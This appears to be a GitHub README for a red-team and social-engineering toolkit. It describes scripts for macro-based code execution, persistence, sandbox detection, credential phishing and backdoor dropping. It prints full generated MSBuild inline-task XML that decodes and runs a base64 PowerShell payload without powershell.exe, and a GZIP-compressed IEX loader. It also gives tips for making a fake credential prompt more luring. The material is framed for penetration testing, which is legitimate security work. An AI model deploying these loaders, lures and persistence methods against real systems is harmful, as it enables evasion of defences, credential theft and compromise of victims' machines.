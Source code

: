 ## Red Teaming and Social-Engineering related scripts, tools and CheatSheets


- **`Macro-Less-Cheatsheet.md`** - Macro-Less Code Execution in MS Office via DDE (Dynamic Data Exchange) techniques Cheat-Sheet ([gist](https://gist.github.com/mgeeky/981213b4c73093706fc2446deaa5f0c5))


- **`generateMSBuildPowershellXML.py`** - Powershell via MSBuild inline-task XML payload generation script - To be used during Red-Team assignments to launch Powershell payloads without using `powershell.exe` ([gist](https://gist.github.com/mgeeky/df9f313cfe468e56c59268b958319bcb))

    Example output **not minimized**:
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1

        :: Powershell via MSBuild inline-task XML payload generation script
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File not recognized as PE/EXE.

------------------------------------------------------------------------------------
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

  <!--  Based on Casey Smith work, Twitter: @subTee                              -->
  <!--  Automatically generated using `generateMSBuildPowershellXML.py` utility  -->
  <!--  by Mariusz B. / mgeeky <mb@binary-offensive.com>                         -->

  <Target Name="btLDoraXcZV">
    <hwiJYmWvD />
  </Target>
  <UsingTask TaskName="hwiJYmWvD" TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v    4.0.dll" >
    <Task>
    <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class hwiJYmWvD : Task {
                public override bool Execute() {

                    byte[] payload = System.Convert.FromBase64String("JHMgPSBOZXctT2JqZ    WN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygn    SDRzSUFJOUxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbWZwNmVZM0Z4YW0    1U1RtV3NsWlZQZm1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZV    czNVJickdTcGtLTmduOXBpYTVmYVU2T05TOVhORFpGZXI2cHhjV0o2YWxPK1JWQXM0T    Xo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3    LU9iamVjdCBJTy5TdHJlYW1SZWFkZXIoTmV3LU9iamVjdCBJTy5Db21wcmVzc2lvbi5    HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb    2RlXTo6RGVjb21wcmVzcykpKS5SZWFkVG9FbmQoKTs=");
                    string decoded = System.Text.Encoding.UTF8.GetString(payload);

                    Runspace runspace = RunspaceFactory.CreateRunspace();
                    runspace.Open();

                    Pipeline pipeline = runspace.CreatePipeline();
                    pipeline.Commands.AddScript(decoded);
                    pipeline.Invoke();

                    runspace.Close();
                    return true;
                }
            }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
------------------------------------------------------------------------------------
```
    
**minimized**
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1 -m                     
                                                                                                                  
        :: Powershell via MSBuild inline-task XML payload generation     script                                       
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'       
        Mariusz B. / mgeeky, <mb@binary-offensive.com>                                                                
                                                                                                                  
[?] File not recognized as PE/EXE.                                                                                    
                                                                                                                  
------------------------------------------------------------------------------------                                  
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003"><Target     Name="mYOYInAFWE"><DpaYaokgauWBJbe />
</Target><UsingTask TaskName="DpaYaokgauWBJbe" TaskFactory="CodeTaskFactory"     AssemblyFile="C:\Windows\Microsoft.Ne
t\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"><Task><Reference     Include="System.Management.Automation" /><
Code Type="Class" Language="cs"><![CDATA[using System.Management.Automation;using     System.Management.Automation.Run
spaces;using Microsoft.Build.Framework;using Microsoft.Build.Utilities;public class     DpaYaokgauWBJbe:Task{public ov
erride bool Execute(){byte[]    x=System.Convert.FromBase64String("JHMgPSBOZXctT2JqZWN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb25
2ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygnSDRzSUFMQkxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbW    ZwNmVZM0Z4YW01U1RtV3NsWlZQZ
m1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZVczNVJickdTcGtLTmduOXBpYTVmYVU2T05T    OVhORFpGZXI2cHhjV0o2YWxPK1J
WQXM0TXo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3LU9iamVjdCBJTy    5TdHJlYW1SZWFkZXIoTmV3LU9ia
mVjdCBJTy5Db21wcmVzc2lvbi5HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb2Rl    XTo6RGVjb21wcmVzcykpKS5SZWF
kVG9FbmQoKTs=");string d=System.Text.Encoding.UTF8.GetString(x);Runspace     r=RunspaceFactory.CreateRunspace();r.Open
();Pipeline p=r.CreatePipeline();p.Commands.AddScript(d);p.Invoke();r.Close();return     true;}}]]></Code></Task></Usi
ngTask></Project>                                                                                                     
------------------------------------------------------------------------------------                              
```


- **`msbuild-powershell-msgbox.xml`** - Example of Powershell execution via MSBuild inline task XML file. On a simple Message-Box script.
 ([gist](https://gist.github.com/mgeeky/617c54a23f0c4e99e6f475e6af070810))


- **`compressedPowershell.py`** - Creates a Powershell snippet containing GZIP-Compressed payload that will get decompressed and executed (IEX)
. ([gist](https://gist.github.com/mgeeky/e30ceecc2082a11b99c7b24b42bd77fc))

    Example:

```
$s = New-Object IO.MemoryStream(, [Convert]::FromBase64String('H4sIAMkfcloC/3u/e390cGVxSWquXlBqWk5qcklmfp6eY3Fxam5STmWslZVPfmJKeGZJRkBiUUlmYo5fYm6qhhJUR3hmXkp+ebGeW35RbrGSpkKNgn9pia5faU6ONS9XNDZFer6pxcWJ6alO+RVAs4Mz8ss11D1LFMrzi7KLFdU1rQFOfXYfjwAAAA=='));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```


- **`muti-stage-1.md`** - Multi-Stage Penetration-Testing / Red Teaming Malicious Word document creation process. ([gist](https://gist.github.com/mgeeky/6097ea56e0f541aa7d98161e2aa76dfb))

- **`macro-psh-stdin-author.vbs`** - VBS Social Engineering Macro with Powershell invocation taking arguments from Author property and feeding them to StdIn. ([gist](https://gist.github.com/mgeeky/50c4b7fa22d930a80247fea62755fbd3))

- **`Invoke-Command-Cred-Example.ps1`** - Example of using PSRemoting with credentials passed directly from command line. ([gist](https://gist.github.com/mgeeky/de4ecf952ddce774d241b85cfbf97faf))

- **`Phish-Creds.ps1`** - Powershell oneline Credentials Phisher - to be used in malicious Word Macros/VBA/HTA or other RCE commands on seized machine. ([gist](https://gist.github.com/mgeeky/a404d7f23c85954650d686bb3f02abaf))

    One can additionally add, right after `Get-Credential` following parameters that could improve pretext's quality during social engineering attempt:
    - `-Credential domain\username` - when we know our victim's domain and/or username - we can supply this info to the dialog
    - `-Message "Some luring sentence"` - to include some luring message


- **`vba-windows-persistence.vbs`** - VBA Script implementing two windows persistence methods - via WMI EventFilter object and via simple Registry Run. ([gist](https://gist.github.com/mgeeky/07ffbd9dbb64c80afe05fb45a0f66f81))

- **`set-handler.rc`** - Quickly set metasploit's multi-handler + web_delivery (separated) handler for use with powershell. ([gist](https://gist.github.com/mgeeky/bf4d732aa6e602ca9b77d089fd3ea7c9))

- **`delete-warning-div-macro.vbs`** - VBA Macro function to be used as a Social Engineering trick removing "Enable Content" warning message as the topmost floating text box with given name. ([gist](https://gist.github.com/mgeeky/9cb6acdec31c8a70cc037c84c77a359c))

- **`vba-macro-mac-persistence.vbs`** - (WIP) Working on VBA-based MacPersistance functionality for MS Office for Mac Macros. ([gist](https://gist.github.com/mgeeky/dd184e7f50dfab5ac97b4855f23952bc))

- **`WMIPersistence.vbs`** - Visual Basic Script implementing WMI Persistence method (as implemented in SEADADDY malware and further documented by Matt Graeber) to make the Macro code schedule malware startup after roughly 3 minutes since system gets up. ([gist](https://gist.github.com/mgeeky/d00ba855d2af73fd8d7446df0f64c25a))

- **`MacroDetectSandbox.vbs`** - Visual Basic script responsible for detecting Sandbox environments, as presented in modern Trojan Droppers implemented in Macros. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`Various-Macro-Based-RCEs.md`** - Various Visual Basic Macros-based Remote Code Execution techniques to get your meterpreter invoked on the infected machine. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`SubstitutePageMacro.vbs`** - This is a template for the Malicious Macros that would like to substitute primary contents of the document (like luring/fake warnings to "Enable Content") and replace document's contents with what is inside of an AutoText named `RealDoc` (configured via variable `autoTextTemplateName` ). ([gist](https://gist.github.com/mgeeky/3c705560c5041ab20c62f41e917616e6))

- **`warnings\EN-Word.docx`** and **`warnings\EN-Excel.docx`**  - Set of ready-to-use Microsoft Office Word shapes that can be pasted / inserted into malicious documents for enticing user into clicking "Enable Editing" and "Enable Content" buttons.

- **`backdoor-drop.js`** - Internet Explorer - JavaScript trojan/backdoor dropper template, to be used during Penetration Testing assessments. ([gist](https://gist.github.com/mgeeky/b0aed7c1e510560db50f96604b150dac))

